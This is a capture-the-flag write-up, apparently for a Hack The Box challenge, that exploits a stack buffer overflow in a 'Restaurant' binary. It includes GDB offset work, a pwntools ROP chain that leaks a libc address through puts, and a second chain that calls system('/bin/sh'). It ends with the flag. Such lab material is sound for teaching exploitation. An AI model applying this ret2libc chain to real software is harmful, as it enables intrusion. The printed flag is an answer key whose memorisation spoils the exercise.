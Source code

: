 # Restaurant

Welcome to our Restaurant. Here, you can eat and drink as much as you want! Just don't overdo it..

# Solution

First things first

```bash
cmd: checksec --file=restaurant

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   78) Symbols	  No	0		2		restaurant
```

We can see that the binary is not stripped (which is always good). Another thing is that the challenge files include a **LIBC** binary, so it might be a return to libc without information disclosure but lets take a look at the program itself <br>

```
🥡 Welcome to Rocky Restaurant 🥡

What would you like?
1. Fill my dish.
2. Drink something
> 1

You can add these ingredients to your dish:
1. 🍅
2. 🧀
You can also order something else.
> 1

Enjoy your 1
```

If we've chosen cheese (2) the answer is the same. Lets try to **Drink something** <br>

``` 
🥡 Welcome to Rocky Restaurant 🥡

What would you like?
1. Fill my dish.
2. Drink something
> 2

What beverage would you like?
1. Water.
2. 🥤.
> 1

Enjoy your drink!
```

It also displays the same message for both choices <br>

Trying to find some weird behavior i found a buffer overflow with the following input
```
🥡 Welcome to Rocky Restaurant 🥡

What would you like?
1. Fill my dish.
2. Drink something
> 1

You can add these ingredients to your dish:
1. 🍅
2. 🧀
You can also order something else.
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Enjoy your AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
����zsh: segmentation fault (core dumped)  ./restaurant
```

So, we might be successful by applying the initial thought theory of **ret2libc** because there's no **canaries** and no **pie** so we can overflow the **RIP** and call **system(/bin/sh)** <br>

But first, lets analyze the binary in IDA to have a complete picture of what is happening under the hood <br>

The decompilation code does not add much to what we already know just denotes that the read function reads **0x400** bytes which is a lot !! <br>

By using GDB, we can see the return address and the start of the buffer and thus we can calculate the offset in order to hijack the execution flow

```assembly
gdb-peda$ disass fill
----snip----
0x0000000000400ebc <+114>:   lea    rax,[rbp-0x20]                 
0x0000000000400ec0 <+118>:   mov    edx,0x400                      
0x0000000000400ec5 <+123>:   mov    rsi,rax                        
0x0000000000400ec8 <+126>:   mov    edi,0x0                        
0x0000000000400ecd <+131>:   call   0x400690 <read@plt>
0x0000000000400ed2 <+136>:   lea    rax,[rbp-0x20]
----snip----
0x0000000000400eea <+160>:   nop                                   
0x0000000000400eeb <+161>:   leave                                 
0x0000000000400eec <+162>:   ret


gdb-peda$ b *0x0000000000400ed2  (after read)
gdb-peda$ b *0x0000000000400eec  (at ret instruction)
gdb-peda$ r

gdb-peda$ w/wx $rbp-0x20
0x7fffffffe210: 0x41414141

gdb-peda$ c

gdb-peda$ x/wx $rsp
0x7fffffffe238: 0x00400ff3

gdb-peda$ p 0x7fffffffe238-0x7fffffffe210                             
$3 = 0x28
```

So, in order to abuse the ret instruction we need to pad the buffer with **40** (0x28) bytes of junk <br>

The next step, is to leak some libc address in order to calculate the library base address. To achieve this i used **pwntools** ROP functionality
```python
rop = ROP(elf)

rop.call((rop.find_gadget(["ret"]))[0])                     # ret instruction to align the stack
rop.call(elf.plt["puts"], [next(elf.search(b"\n\x00"))])    # call puts with a string containing a newline and a null-byte (to break the output message and ease the leak parsing)
rop.call(elf.plt["puts"], [elf.got["puts"]])                # call puts.plt with the puts.got address (to leak it)
rop.call(elf.symbols["fill"])                               # after leaking, call fill again
``` 

This ropchain generates the following assembly code
```assembly
0x0000:         0x40063e 0x40063e()             <- the ret instruction for alignment                       
0x0008:         0x4010a3 pop rdi; ret           <- pops into RDI (the puts function argument)                      
0x0010:         0x400604 [arg0] rdi = 4195844   <- calls                      
0x0018:         0x400650                                              
0x0020:         0x4010a3 pop rdi; ret           <- pops into RDI (the puts.got address)                      
0x0028:         0x601fa8 [arg0] rdi = got.puts  <- calls                      
0x0030:         0x400650                                              
0x0038:         0x400e4a 0x400e4a()             <- call fill                         
```

Now we need to parse the leak and calculate the libc base address
```python
log.progress("Receiving junk ...")
print(com.recvline())
print(com.recvline())
print(com.recvline())

log.success("Leak received !")
leak = u64(com.recvuntil(b"\n").strip().ljust(8, b"\x00"))

log.info("Puts leaked address @ {}".format(hex(leak)))

libc.address = leak - libc.symbols["puts"]
```

After this, we just need to construct another ropchain to call system but this time using the addresses in the libc elf
```python
rop = ROP(libc)

rop.call((rop.find_gadget(["ret"]))[0])                     # ret instruction to align the stack
rop.call(libc.symbols["system"], [next(libc.search(b"/bin/sh\x00"))])
```

And voila, we got a shell
```
$ whoami && id
ctf
uid=999(ctf) gid=999(ctf) groups=999(ctf)

$ ls -la
total 2016
drwxr-xr-x 1 root ctf     4096 Feb 23 14:16 .
drwxr-xr-x 1 root root    4096 Jan 22 02:23 ..
-r--r----- 1 root ctf       29 Feb 23 14:15 flag.txt
-rwxr-xr-x 1 root ctf  2030928 Feb 23 14:15 libc.so.6
-rwxr-x--- 1 root ctf    12952 Feb 23 14:15 restaurant
-rwxr-x--- 1 root ctf       41 Feb 23 14:15 run_challenge.sh

```

**Flag:** HTB{r3turn_2_th3_r3st4ur4nt!}
